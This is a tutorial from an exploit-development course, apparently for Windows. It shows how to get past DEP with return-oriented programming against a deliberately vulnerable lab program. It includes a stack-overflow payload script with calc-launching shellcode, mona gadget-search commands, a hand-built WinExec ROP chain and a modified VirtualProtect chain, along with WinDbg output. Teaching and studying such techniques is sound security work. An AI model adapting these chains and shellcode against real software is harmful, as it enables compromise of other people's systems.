



These articles are better read in order because they’re part of a full course. I assume that you know the material in Exploitme1 and Exploitme2.
This article is not easy to digest so take your time. I tried to be brief because I don’t believe in repeating things many times. If you understand the principles behind ROP, then you can work out how everything works by yourself. After all, that’s exactly what I did when I studied ROP for the first time. Also, you must be very comfortable with assembly. What does RET 0x4 do exactly? How are arguments passed to functions (in 32-bit code)? If you’re unsure about any of these points, you need to go back to study assembly. You’ve been warned!
Let’s get started…
First of all, in VS 2013, we’ll disable stack cookies, but leave DEP on, by going to Project→properties, and modifying the configuration for Release as follows:
- Configuration Properties
- C/C++
- Code Generation
- Security Check: Disable Security Check (/GS-)
- Code Generation
- C/C++
Make sure that DEP is activated:
- Configuration Properties
- Linker
- Advanced
- Data Execution Prevention (DEP): Yes (/NXCOMPAT)
- Advanced
- Linker
We’ll use the same code as before:
#include <cstdio>
int main() {
char name[32];
printf("Reading name from file...\n");
FILE *f = fopen("c:\\name.dat", "rb");
if (!f)
return -1;
fseek(f, 0L, SEEK_END);
long bytes = ftell(f);
fseek(f, 0L, SEEK_SET);
fread(name, 1, bytes, f);
name[bytes] = '\0';
fclose(f);
printf("Hi, %s!\n", name);
return 0;
}
Let’s generate name.dat with the Python script we used for exploitme1.exe:
with open('c:\\name.dat', 'wb') as f:
ret_eip = '\x80\xa9\xe1\x75' # "push esp / ret" in kernel32.dll
shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
"\x30\x03\xc6\xeb\xdd")
name = 'a'*36 + ret_eip + shellcode
f.write(name)
Note that I had to change ret_eip because I rebooted Windows. Remember that the command to find a JMP ESP instruction or equivalent code in kernel32.dll is
!py mona jmp -r esp -m kernel32.dll
If you run exploitme3.exe with DEP disabled, the exploit will work, but with DEP enabled the following exception is generated:
(1ee8.c3c): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=00000000 ecx=6d593071 edx=005a556b esi=00000001 edi=00000000 eip=002ef788 esp=002ef788 ebp=61616161 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 002ef788 e8ffffffff call 002ef78c
Note that EIP = ESP, so we just jumped to ESP, but something went wrong. If we disassemble the code at EIP, we see that it’s indeed our shellcode:
0:000> u eip 002ef788 e8ffffffff call 002ef78c 002ef78d c05fb911 rcr byte ptr [edi-47h],11h 002ef791 0302 add eax,dword ptr [edx] 002ef793 0281f1020202 add al,byte ptr [ecx+20202F1h] 002ef799 0283c71d33f6 add al,byte ptr [ebx-9CCE239h] 002ef79f fc cld 002ef7a0 8a07 mov al,byte ptr [edi] 002ef7a2 3c02 cmp al,2
Here’s a portion of our shellcode (see the Python script above):
\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02
As you can see, the bytes match.
So what’s wrong? The problem is that the page which contains this code is marked as non executable.
Here’s what you’ll see when the page is executable:
0:000> !vprot @eip BaseAddress: 77c71000 AllocationBase: 77bd0000 AllocationProtect: 00000080 PAGE_EXECUTE_WRITECOPY RegionSize: 00045000 State: 00001000 MEM_COMMIT Protect: 00000020 PAGE_EXECUTE_READ Type: 01000000 MEM_IMAGE
The most important line is
Protect: 00000020 PAGE_EXECUTE_READ
which means that the page is readonly and executable.
In our case, after the exception, we see something different:
0:000> !vprot @eip BaseAddress: 0028f000 AllocationBase: 00190000 AllocationProtect: 00000004 PAGE_READWRITE RegionSize: 00001000 State: 00001000 MEM_COMMIT Protect: 00000004 PAGE_READWRITE Type: 00020000 MEM_PRIVATE
The page is readable and writable but not executable.
Simply put, DEP (Data Execution Prevention) marks all the pages containing data as non-executable. This includes stack and heap. The solution is simple: don’t execute code on the stack!
The technique to do that is called ROP which stands for Return-Oriented Programming. The idea is simple:
- reuse pieces of code already present in the modules
- use the stack only to control data and the flow of execution
Consider the following three pieces of code:
piece1:
pop eax
pop ebx
ret
piece2:
mov ecx, 4
ret
piece3:
pop edx
ret
piece1, piece2 and piece3 are three labels and represent addresses in memory. We’ll use them instead of the real addresses for convenience.
Now let’s put the following values on the stack:
esp --> value_for_eax
value_for_ebx
piece2
piece3
value_for_edxIf in the beginning EIP = piece1 and we let the code run, here’s what will happen:

The schema should be clear, but let’s examine it step by step:
{kind=link}
- The execution starts at piece1 and esp points to value_for_eax.
- pop eax puts value_for_eax into eax (esp += 4: now esp points to values_for_ebx).
- pop ebx puts value_for_ebx into ebx (esp += 4: now esp points to piece2).
- ret pops piece2 and jumps to piece2 (esp += 4: now esp points to piece3).
- mov ecx, 4 puts 4 into ecx.
- ret pops piece3 and jumps to piece3 (esp += 4: now esp points to value_for_edx).
- pop edx puts value_for_edx into edx (esp += 4: now esp points to some_function).
- ret pops some_function and jumps to some_function.
We assume that some_function never returns.
By now it should be clear why this technique is called ROP: the instruction RET is used to jump from one piece of code to the next. The pieces of code are usually called gadgets. A gadget is just a sequence of instructions which ends with a RET instruction.
The hard part is finding and chaining together the right gadgets to achieve our goals.
Calling WinExec directly
For our exploit we want to execute what follows:
WinExec("calc.exe", SW_SHOW);
ExitThread(0);
Here’s the corresponding code in assembly:
WinExec("calc.exe", SW_SHOW);
00361000 6A 05 push 5
00361002 68 00 21 36 00 push 362100h
00361007 FF 15 04 20 36 00 call dword ptr ds:[362004h]
ExitThread(0);
0036100D 6A 00 push 0
0036100F FF 15 00 20 36 00 call dword ptr ds:[362000h]One important thing that we note is that WinExec() and ExitThread() remove the arguments from the stack on their own (by using ret 8 and ret 4, respectively).
362100h is the address of the string calc.exe located in the .rdata section. We’ll need to put the string directly on the stack. Unfortunately the address of the string won’t be constant so we’ll have to compute it at runtime.
First of all, we’ll find all the interesting gadgets in kernel32.dll, ntdll and msvcr120.dll. We’ll use mona (article) once again. If you didn’t do so, set mona’s working directory with:
!py mona config -set workingfolder "C:\logs\%p"
You’re free to change the directory, of course. The term %p will be replaced each time with the name of the executable you’re working on.
Here’s the command to find the rops:
!py mona rop -m kernel32.dll,ntdll,msvcr120.dll
This will output a lot of data and generate the following files (located in the directory specified above):
- rop.txt
- rop_chains.txt
- rop_suggestions.txt
- stackpivot.txt
Review the files to see what kind of information they contain.
To call WinExec and ExitThread, we need to set up the stack this way:
cmd: "calc"
".exe"
0
WinExec <----- ESP
ExitThread
cmd # arg1 of WinExec
5 # arg2 (uCmdShow) of WinExec
ret_for_ExitThread # not used
dwExitCode # arg1 of ExitThreadIf we execute RET when ESP points at the location indicated above, WinExec will be executed. WinExec terminates with a RETN 8 instruction which extract the address of ExitThread from the stack, jumps to ExitThread and remove the two arguments from the stack (by incrementing ESP by 8). ExitThread will use dwExitCode located on the stack but won’t return.
There are two problems with this schema:
- some bytes are null;
- cmd is non-constant so the arg1 of WinExec must be fixed at runtime.
Note that in our case, since all the data is read from file through fread(), we don’t need to avoid null bytes. Anyway, to make things more interesting, we’ll pretend that no null bytes may appear in our ROP chain. Instead of 5 (SW_SHOW), we can use 0x01010101 which seems to work just fine. The first null dword is used to terminate the cmd string so we’ll need to replace it with something like 0xffffffff and zero it out at runtime. Finally, we’ll need to write cmd (i.e. the address of the string) on the stack at runtime.
The approach is this:

{kind=link}
First, we skip (by incrementing ESP) the part of the stack we want to fix. Then we fix that part and, finally, we jump back (by decrementing ESP) to the part we fixed and “execute it” (only in a sense, since this is ROP).
Here’s a Python script which creates name.dat:
import struct
def write_file(file_path):
# NOTE: The rop_chain can't contain any null bytes.
msvcr120 = 0x6cf70000
kernel32 = 0x77120000
ntdll = 0x77630000
WinExec = kernel32 + 0x92ff1
ExitThread = ntdll + 0x5801c
lpCmdLine = 0xffffffff
uCmdShow = 0x01010101
dwExitCode = 0xffffffff
ret_for_ExitThread = 0xffffffff
# These are just padding values.
for_ebp = 0xffffffff
for_ebx = 0xffffffff
for_esi = 0xffffffff
for_retn = 0xffffffff
rop_chain = [
msvcr120 + 0xc041d, # ADD ESP,24 # POP EBP # RETN
# cmd:
"calc",
".exe",
# cmd+8:
0xffffffff, # zeroed out at runtime
# cmd+0ch:
WinExec,
ExitThread,
# cmd+14h:
lpCmdLine, # arg1 of WinExec (computed at runtime)
uCmdShow, # arg2 of WinExec
ret_for_ExitThread, # not used
dwExitCode, # arg1 of ExitThread
# cmd+24h:
for_ebp,
ntdll + 0xa3f07, # INC ESI # PUSH ESP # MOV EAX,EDI # POP EDI # POP ESI # POP EBP # RETN 0x04
# now edi = here
# here:
for_esi,
for_ebp,
msvcr120 + 0x45042, # XCHG EAX,EDI # RETN
for_retn,
# now eax = here
msvcr120 + 0x92aa3, # SUB EAX,7 # POP EBX # POP EBP # RETN
for_ebx,
for_ebp,
msvcr120 + 0x92aa3, # SUB EAX,7 # POP EBX # POP EBP # RETN
for_ebx,
for_ebp,
msvcr120 + 0x92aa3, # SUB EAX,7 # POP EBX # POP EBP # RETN
for_ebx,
for_ebp,
msvcr120 + 0x92aa3, # SUB EAX,7 # POP EBX # POP EBP # RETN
for_ebx,
for_ebp,
msvcr120 + 0x92aa3, # SUB EAX,7 # POP EBX # POP EBP # RETN
for_ebx,
for_ebp,
msvcr120 + 0xbfe65, # SUB EAX,2 # POP EBP # RETN
for_ebp,
kernel32 + 0xb7804, # INC EAX # RETN
# now eax = cmd+8
# do [cmd+8] = 0:
msvcr120 + 0x76473, # XOR ECX,ECX # XCHG ECX,DWORD PTR [EAX] # POP ESI # POP EBP # RETN
for_esi,
for_ebp,
msvcr120 + 0xbfe65, # SUB EAX,2 # POP EBP # RETN
for_ebp,
# now eax+0eh = cmd+14h (i.e. eax = cmd+6)
# do ecx = eax:
msvcr120 + 0x3936b, # XCHG EAX,ECX # MOV EDX,653FB4A5 # RETN
kernel32 + 0xb7a0a, # XOR EAX,EAX # RETN
kernel32 + 0xbe203, # XOR EAX,ECX # POP EBP # RETN 0x08
for_ebp,
msvcr120 + 0xbfe65, # SUB EAX,2 # POP EBP # RETN
for_retn,
for_retn,
for_ebp,
msvcr120 + 0xbfe65, # SUB EAX,2 # POP EBP # RETN
for_ebp,
msvcr120 + 0xbfe65, # SUB EAX,2 # POP EBP # RETN
for_ebp,
# now eax = cmd
msvcr120 + 0x3936b, # XCHG EAX,ECX # MOV EDX,653FB4A5 # RETN
# now eax+0eh = cmd+14h
# now ecx = cmd
kernel32 + 0xa04fc, # MOV DWORD PTR [EAX+0EH],ECX # POP EBP # RETN 0x10
for_ebp,
msvcr120 + 0x3936b, # XCHG EAX,ECX # MOV EDX,653FB4A5 # RETN
for_retn,
for_retn,
for_retn,
for_retn,
msvcr120 + 0x1e47e, # ADD EAX,0C # RETN
# now eax = cmd+0ch
# do esp = cmd+0ch:
kernel32 + 0x489c0, # XCHG EAX,ESP # RETN
]
rop_chain = ''.join([x if type(x) == str else struct.pack('<I', x)
for x in rop_chain])
with open(file_path, 'wb') as f:
ret_eip = kernel32 + 0xb7805 # RETN
name = 'a'*36 + struct.pack('<I', ret_eip) + rop_chain
f.write(name)
write_file(r'c:\name.dat')
The chain of gadgets is quite convoluted, so you should take your time to understand it. You may want to debug it in WinDbg. Start WinDbg, load exploitme3.exe and put a breakpoint on the ret instruction of the main function:
bp exploitme3!main+0x86
Then hit F5 (go) and begin to step (F10) through the code. Use dd esp to look at the stack now and then.
Here’s a simpler description of what happens to help you understand better:
esp += 0x24+4 # ADD ESP,24 # POP EBP # RETN
# This "jumps" to "skip" ------------------------+
# cmd: |
"calc" |
".exe" |
# cmd+8: |
0xffffffff, # zeroed out at runtime |
# cmd+0ch: |
WinExec <----------------------------------------------------------------)---------------------------+
ExitThread | |
# cmd+14h: | |
lpCmdLine # arg1 of WinExec (computed at runtime) | |
uCmdShow # arg2 of WinExec | |
ret_for_ExitThread # not used | |
dwExitCode # arg1 of ExitThread | |
# cmd+24h: | |
for_ebp | |
| |
skip: <---------------------------------------------------------------+ |
edi = esp # INC ESI # PUSH ESP # MOV EAX,EDI # POP EDI # POP ESI # POP EBP # RETN 0x04 |
# ----> now edi = here |
# here: |
eax = edi # XCHG EAX,EDI # RETN |
# ----> now eax = here |
|
eax -= 36 # SUB EAX,7 # POP EBX # POP EBP # RETN |
# SUB EAX,7 # POP EBX # POP EBP # RETN |
# SUB EAX,7 # POP EBX # POP EBP # RETN |
# SUB EAX,7 # POP EBX # POP EBP # RETN |
# SUB EAX,7 # POP EBX # POP EBP # RETN |
# SUB EAX,2 # POP EBP # RETN |
# INC EAX # RETN |
# ----> now eax = cmd+8 (i.e. eax --> value to zero-out) |
|
dword ptr [eax] = 0 # XOR ECX,ECX # XCHG ECX,DWORD PTR [EAX] # POP ESI # POP EBP # RETN |
|
eax -= 2 # SUB EAX,2 # POP EBP # RETN |
# ----> now eax+0eh = cmd+14h (i.e. eax+0eh --> lpCmdLine on the stack) |
|
ecx = eax # XCHG EAX,ECX # MOV EDX,653FB4A5 # RETN |
# XOR EAX,EAX # RETN |
# XOR EAX,ECX # POP EBP # RETN 0x08 |
|
eax -= 6 # SUB EAX,2 # POP EBP # RETN |
# SUB EAX,2 # POP EBP # RETN |
# SUB EAX,2 # POP EBP # RETN |
# ----> now eax = cmd |
|
swap(eax,ecx) # XCHG EAX,ECX # MOV EDX,653FB4A5 # RETN |
# ----> now eax+0eh = cmd+14h |
# ----> now ecx = cmd |
|
[eax+0eh] = ecx # MOV DWORD PTR [EAX+0EH],ECX # POP EBP # RETN 0x10 |
|
eax = ecx # XCHG EAX,ECX # MOV EDX,653FB4A5 # RETN |
eax += 12 # ADD EAX,0C # RETN |
# ----> now eax = cmd+0ch |
esp = eax # XCHG EAX,ESP # RETN |
# This "jumps" to cmd+0ch ----------------------------------------------------+Disabling DEP
It turns out that DEP can be disabled programmatically. The problem with DEP is that some applications might not work with it, so it needs to be highly configurable.
At a global level, DEP can be
- AlwaysOn
- AlwaysOff
- OptIn: DEP is enabled only for system processes and applications chosen by the user.
- OptOut: DEP is enabled for every application except for those explicitly excluded by the user.
DEP can also be enabled or disabled on a per-process basis by using SetProcessDEPPolicy.
There are various ways to bypass DEP:
- VirtualProtect() to make memory executable.
- VirtualAlloc() to allocate executable memory.
Note: VirtualAlloc() can be used to commit memory already committed by specifying its address. To make a page executable, it’s enough to allocate a single byte (length = 1) of that page! - HeapCreate() + HeapAlloc() + copy memory.
- SetProcessDEPPolicy() to disable DEP. It doesn’t work if DEP is AlwaysOn or if SetProcessDEPPolicy() has already been called for the current process.
- NtSetInformationProcess() to disable DEP. It fails if DEP is AlwaysON or if the module was compiled with /NXCOMPAT or if the function has been already called by the current process.
Here’s a useful table from Team Corelan:

{kind=link}
If you look at the file rop_chains.txt, you’ll see that mona generated a chain for VirtualProtect. Let’s use it!
First of all, let’s have a look at VirtualProtect. Its signature is as follows:
BOOL WINAPI VirtualProtect( _In_ LPVOID lpAddress, _In_ SIZE_T dwSize, _In_ DWORD flNewProtect, _Out_ PDWORD lpflOldProtect );
This function modifies the protection attributes of the pages associated with the specified area of memory. We will use flNewProtect = 0x40 (PAGE_EXECUTE_READWRITE). By making the portion of the stack containing our shellcode executable again, we can execute the shellcode like we did before.
Here’s the chain for Python built by mona:
def create_rop_chain():
# rop chain generated with mona.py - www.corelan.be
rop_gadgets = [
0x6d02f868, # POP EBP # RETN [MSVCR120.dll]
0x6d02f868, # skip 4 bytes [MSVCR120.dll]
0x6cf8c658, # POP EBX # RETN [MSVCR120.dll]
0x00000201, # 0x00000201-> ebx
0x6d02edae, # POP EDX # RETN [MSVCR120.dll]
0x00000040, # 0x00000040-> edx
0x6d04b6c4, # POP ECX # RETN [MSVCR120.dll]
0x77200fce, # &Writable location [kernel32.dll]
0x776a5b23, # POP EDI # RETN [ntdll.dll]
0x6cfd8e3d, # RETN (ROP NOP) [MSVCR120.dll]
0x6cfde150, # POP ESI # RETN [MSVCR120.dll]
0x7765e8ae, # JMP [EAX] [ntdll.dll]
0x6cfc0464, # POP EAX # RETN [MSVCR120.dll]
0x6d0551a4, # ptr to &VirtualProtect() [IAT MSVCR120.dll]
0x6d02b7f9, # PUSHAD # RETN [MSVCR120.dll]
0x77157133, # ptr to 'call esp' [kernel32.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
The idea of this chain is simple: first we put the right values in the registers and then we push all the registers on the stack with PUSHAD. As before, let’s try to avoid null bytes. As you can see, this chain contains some null bytes. I modified the chain a bit to avoid that.
Read the following code very carefully paying special attention to the comments:
import struct
# The signature of VirtualProtect is the following:
# BOOL WINAPI VirtualProtect(
# _In_ LPVOID lpAddress,
# _In_ SIZE_T dwSize,
# _In_ DWORD flNewProtect,
# _Out_ PDWORD lpflOldProtect
# );
# After PUSHAD is executed, the stack looks like this:
# .
# .
# .
# EDI (ptr to ROP NOP (RETN)) <---------------------------- current ESP
# ESI (ptr to JMP [EAX] (EAX = address of ptr to VirtualProtect))
# EBP (ptr to POP (skips EAX on the stack))
# ESP (lpAddress (automatic))
# EBX (dwSize)
# EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE))
# ECX (lpOldProtect (ptr to writeable address))
# EAX (address of ptr to VirtualProtect)
# lpAddress:
# ptr to "call esp"
# <shellcode>
msvcr120 = 0x6cf70000
kernel32 = 0x77120000
ntdll = 0x77630000
def create_rop_chain():
for_edx = 0xffffffff
# rop chain generated with mona.py - www.corelan.be (and modified by me).
rop_gadgets = [
msvcr120 + 0xbf868, # POP EBP # RETN [MSVCR120.dll]
msvcr120 + 0xbf868, # skip 4 bytes [MSVCR120.dll]
# ebx = 0x400 (dwSize)
msvcr120 + 0x1c658, # POP EBX # RETN [MSVCR120.dll]
0x11110511,
msvcr120 + 0xdb6c4, # POP ECX # RETN [MSVCR120.dll]
0xeeeefeef,
msvcr120 + 0x46398, # ADD EBX,ECX # SUB AL,24 # POP EDX # RETN [MSVCR120.dll]
for_edx,
# edx = 0x40 (NewProtect = PAGE_EXECUTE_READWRITE)
msvcr120 + 0xbedae, # POP EDX # RETN [MSVCR120.dll]
0x01010141,
ntdll + 0x75b23, # POP EDI # RETN [ntdll.dll]
0xfefefeff,
msvcr120 + 0x39b41, # ADD EDX,EDI # RETN [MSVCR120.dll]
msvcr120 + 0xdb6c4, # POP ECX # RETN [MSVCR120.dll]
kernel32 + 0xe0fce, # &Writable location [kernel32.dll]
ntdll + 0x75b23, # POP EDI # RETN [ntdll.dll]
msvcr120 + 0x68e3d, # RETN (ROP NOP) [MSVCR120.dll]
msvcr120 + 0x6e150, # POP ESI # RETN [MSVCR120.dll]
ntdll + 0x2e8ae, # JMP [EAX] [ntdll.dll]
msvcr120 + 0x50464, # POP EAX # RETN [MSVCR120.dll]
msvcr120 + 0xe51a4, # address of ptr to &VirtualProtect() [IAT MSVCR120.dll]
msvcr120 + 0xbb7f9, # PUSHAD # RETN [MSVCR120.dll]
kernel32 + 0x37133, # ptr to 'call esp' [kernel32.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
def write_file(file_path):
with open(file_path, 'wb') as f:
ret_eip = kernel32 + 0xb7805 # RETN
shellcode = (
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02" +
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa" +
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8" +
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02" +
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45" +
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6" +
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c" +
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0" +
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53" +
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45" +
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2" +
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b" +
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff" +
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0" +
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75" +
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d" +
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c" +
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24" +
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04" +
"\x30\x03\xc6\xeb\xdd")
name = 'a'*36 + struct.pack('<I', ret_eip) + create_rop_chain() + shellcode
f.write(name)
write_file(r'c:\name.dat')
Here’s the main comment again:
# After PUSHAD is executed, the stack looks like this: # . # . # . # EDI (ptr to ROP NOP (RETN)) <---------------------------- current ESP # ESI (ptr to JMP [EAX] (EAX = address of ptr to VirtualProtect)) # EBP (ptr to POP (skips EAX on the stack)) # ESP (lpAddress (automatic)) # EBX (dwSize) # EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE)) # ECX (lpOldProtect (ptr to writeable address)) # EAX (address of ptr to VirtualProtect) # lpAddress: # ptr to "call esp" # <shellcode>
PUSHAD pushes on the stack the registers EAX, ECX, EDX, EBX, original ESP, EBP, ESI, EDI. The registers are pushed one at a time so the resulting order on the stack is reversed, as you can see in the comment above.
Also note that right before PUSHAD is executed, ESP points to the last dword of the chain (ptr to ‘call esp’ [kernel32.dll]), and so PUSHAD pushes that value on the stack (ESP (lpAddress (automatic))). This value becomes lpAddress which is the starting address of the area of memory whose access protection attributes we want to change.
Afther PUSHAD is executed, ESP points to the DWORD where EDI was pushed (see current ESP above). In the PUSHAD gadget, PUSHAD is followed by RET:
msvcr120 + 0xbb7f9, # PUSHAD # RETN [MSVCR120.dll]
This RET pops the DWORD where EDI was pushed and jumps to a NOP gadget (NOP means that it does nothing) which pops the DWORD where ESI was pushed and jumps to a JMP [EAX] gadget. Because EAX contains the address of a pointer to VirtualProtect, that gadget jumps to VirtualProtect. Note that the stack is set correctly for VirtualProtect:
EBP (ptr to POP (skips EAX on the stack)) # RET EIP ESP (lpAddress (automatic)) # argument 1 EBX (dwSize) # argument 2 EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE)) # argument 3 ECX (lpOldProtect (ptr to writeable address)) # argument 4
When VirtualProtect ends, it jumps to the POP # RET gadget corresponding to EBP in the scheme above and remove all the arguments from the stack. Now ESP points to the DWORD on the stack corresponding to EAX. The gadget POP # RET is finally executed so the POP increments ESP and the RET jumps to the call esp gadget which calls the shellcode (which can now be executed).
By now, you’ll have noticed that I prefer expressing addresses as
baseAddress + RVA
The reason is simple: because of ASLR, the addresses change but the RVAs remain constant.
To try the code on your PC, you’ll need to recompute all the offsets because each system is different. If you manage to make it all work, you’ll learn a lot. In a real exploit you should use modules which come with the application so that the exploit is more reliable.